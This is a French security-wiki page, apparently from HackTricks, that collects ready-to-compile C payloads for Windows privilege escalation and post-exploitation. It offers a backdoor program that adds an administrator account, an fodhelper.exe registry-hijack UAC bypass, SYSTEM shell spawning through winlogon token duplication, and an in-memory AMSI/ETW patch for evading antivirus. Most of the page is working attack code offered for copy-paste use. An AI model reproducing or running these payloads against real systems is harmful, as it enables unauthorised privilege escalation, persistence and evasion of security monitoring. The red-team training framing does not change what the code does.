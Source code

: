 # Windows C Payloads

{{#include ../../banners/hacktricks-training.md}}

Cette page regroupe des **extraits de code C petits et autonomes** qui sont utiles lors de l'escalade de privilèges locaux sur Windows ou après une exploitation. Chaque payload est conçu pour être **facile à copier-coller**, nécessite uniquement l'API Windows / le runtime C, et peut être compilé avec `i686-w64-mingw32-gcc` (x86) ou `x86_64-w64-mingw32-gcc` (x64).

> ⚠️  Ces payloads supposent que le processus dispose déjà des privilèges minimaux nécessaires pour effectuer l'action (par exemple, `SeDebugPrivilege`, `SeImpersonatePrivilege`, ou un contexte d'intégrité moyenne pour un contournement UAC). Ils sont destinés à des **environnements de red-team ou CTF** où l'exploitation d'une vulnérabilité a permis l'exécution de code natif arbitraire.

---

## Ajouter un utilisateur administrateur local
```c
// i686-w64-mingw32-gcc -s -O2 -o addadmin.exe addadmin.c
#include <stdlib.h>
int main(void) {
system("net user hacker Hacker123! /add");
system("net localgroup administrators hacker /add");
return 0;
}
```
---

## Contournement de l'UAC – Détournement de registre `fodhelper.exe` (Intégrité Moyenne → Élevée)
Lorsque le binaire de confiance **`fodhelper.exe`** est exécuté, il interroge le chemin de registre ci-dessous **sans filtrer le verbe `DelegateExecute`**. En plaçant notre commande sous cette clé, un attaquant peut contourner l'UAC *sans* déposer de fichier sur le disque.

*Chemin de registre interrogé par `fodhelper.exe`*
```
HKCU\Software\Classes\ms-settings\Shell\Open\command
```
Un PoC minimal qui ouvre un `cmd.exe` avec des privilèges élevés :
```c
// x86_64-w64-mingw32-gcc -municode -s -O2 -o uac_fodhelper.exe uac_fodhelper.c
#define _CRT_SECURE_NO_WARNINGS
#include <windows.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int main(void) {
HKEY hKey;
const char *payload = "C:\\Windows\\System32\\cmd.exe"; // change to arbitrary command

// 1. Create the vulnerable registry key
if (RegCreateKeyExA(HKEY_CURRENT_USER,
"Software\\Classes\\ms-settings\\Shell\\Open\\command", 0, NULL, 0,
KEY_WRITE, NULL, &hKey, NULL) == ERROR_SUCCESS) {

// 2. Set default value => our payload
RegSetValueExA(hKey, NULL, 0, REG_SZ,
(const BYTE*)payload, (DWORD)strlen(payload) + 1);

// 3. Empty "DelegateExecute" value = trigger (")
RegSetValueExA(hKey, "DelegateExecute", 0, REG_SZ,
(const BYTE*)"", 1);

RegCloseKey(hKey);

// 4. Launch auto-elevated binary
system("fodhelper.exe");
}
return 0;
}
```
*Testé sur Windows 10 22H2 et Windows 11 23H2 (patches de juillet 2025). Le contournement fonctionne toujours car Microsoft n'a pas corrigé le contrôle d'intégrité manquant dans le chemin `DelegateExecute`.*

---

## Spawn SYSTEM shell via token duplication (`SeDebugPrivilege` + `SeImpersonatePrivilege`)
Si le processus actuel détient **les deux** privilèges `SeDebug` et `SeImpersonate` (typique pour de nombreux comptes de service), vous pouvez voler le jeton de `winlogon.exe`, le dupliquer et démarrer un processus élevé :
```c
// x86_64-w64-mingw32-gcc -O2 -o system_shell.exe system_shell.c -ladvapi32 -luser32
#include <windows.h>
#include <tlhelp32.h>
#include <stdio.h>

DWORD FindPid(const wchar_t *name) {
PROCESSENTRY32W pe = { .dwSize = sizeof(pe) };
HANDLE snap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
if (snap == INVALID_HANDLE_VALUE) return 0;
if (!Process32FirstW(snap, &pe)) return 0;
do {
if (!_wcsicmp(pe.szExeFile, name)) {
DWORD pid = pe.th32ProcessID;
CloseHandle(snap);
return pid;
}
} while (Process32NextW(snap, &pe));
CloseHandle(snap);
return 0;
}

int wmain(void) {
DWORD pid = FindPid(L"winlogon.exe");
if (!pid) return 1;

HANDLE hProc   = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, FALSE, pid);
HANDLE hToken  = NULL, dupToken = NULL;

if (OpenProcessToken(hProc, TOKEN_DUPLICATE | TOKEN_ASSIGN_PRIMARY | TOKEN_QUERY, &hToken) &&
DuplicateTokenEx(hToken, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &dupToken)) {

STARTUPINFOW si = { .cb = sizeof(si) };
PROCESS_INFORMATION pi = { 0 };
if (CreateProcessWithTokenW(dupToken, LOGON_WITH_PROFILE,
L"C\\\Windows\\\System32\\\cmd.exe", NULL, CREATE_NEW_CONSOLE,
NULL, NULL, &si, &pi)) {
CloseHandle(pi.hProcess);
CloseHandle(pi.hThread);
}
}
if (hProc) CloseHandle(hProc);
if (hToken) CloseHandle(hToken);
if (dupToken) CloseHandle(dupToken);
return 0;
}
```
Pour une explication plus approfondie de son fonctionnement, voir :

{{#ref}}
sedebug-+-seimpersonate-copy-token.md
{{#endref}}

---

## Patch AMSI & ETW en mémoire (Évasion de défense)
La plupart des moteurs AV/EDR modernes s'appuient sur **AMSI** et **ETW** pour inspecter les comportements malveillants. Patchant les deux interfaces tôt dans le processus actuel, cela empêche les charges utiles basées sur des scripts (par exemple, PowerShell, JScript) d'être scannées.
```c
// gcc -o patch_amsi.exe patch_amsi.c -lntdll
#define _CRT_SECURE_NO_WARNINGS
#include <windows.h>
#include <stdio.h>

void Patch(BYTE *address) {
DWORD oldProt;
// mov eax, 0x80070057 ; ret  (AMSI_RESULT_E_INVALIDARG)
BYTE patch[] = { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };
VirtualProtect(address, sizeof(patch), PAGE_EXECUTE_READWRITE, &oldProt);
memcpy(address, patch, sizeof(patch));
VirtualProtect(address, sizeof(patch), oldProt, &oldProt);
}

int main(void) {
HMODULE amsi  = LoadLibraryA("amsi.dll");
HMODULE ntdll = GetModuleHandleA("ntdll.dll");

if (amsi)  Patch((BYTE*)GetProcAddress(amsi,  "AmsiScanBuffer"));
if (ntdll) Patch((BYTE*)GetProcAddress(ntdll, "EtwEventWrite"));

MessageBoxA(NULL, "AMSI & ETW patched!", "OK", MB_OK);
return 0;
}
```
*Le correctif ci-dessus est local au processus ; le lancement d'un nouveau PowerShell après l'avoir exécuté se fera sans inspection AMSI/ETW.*

---

## Références
* Ron Bowes – “Fodhelper UAC Bypass Deep Dive” (2024)
* SplinterCode – “AMSI Bypass 2023: The Smallest Patch Is Still Enough” (BlackHat Asia 2023)

{{#include ../../banners/hacktricks-training.md}}
